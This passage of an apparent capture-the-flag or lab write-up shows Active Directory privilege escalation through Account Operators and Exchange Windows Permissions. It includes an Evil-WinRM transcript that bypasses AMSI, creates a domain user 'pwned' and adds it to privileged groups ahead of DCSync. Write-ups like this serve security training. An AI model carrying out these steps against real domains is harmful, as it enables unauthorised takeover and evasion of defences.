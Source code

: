 **Resources:**

- [*History Of Exchange With Having Wide Permissions In AD* - **Microsoft 365 Security**](https://m365internals.com/2022/10/14/history-of-exchange-with-having-wide-permissions-in-ad/)
- [*Mitigating Exchange Permission Paths to Domain Admins in Active Directory* - **Active Directory Security**](https://m365internals.com/2022/10/14/history-of-exchange-with-having-wide-permissions-in-ad/)

-----

Now lets get straight into abusing this privileges. First: We need to:

- Abuse the `Account Operator` privileges to create a user.
- Add user to the `Exchange Windows Permissions` & `Remote Management Users` groups. 
- Leverage on previosuly uploaded PowerView script to grant DCSync privileges to the newly created account.




```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> menu


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\svc-alfresco\Links> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> net user pwned 'Pwn3d!!' /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Links> net group "Exchange Windows Permissions" pwned /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Links> net localgroup "Remote Management Users" pwned /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Links> net user pwned
User name                    pwned
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
```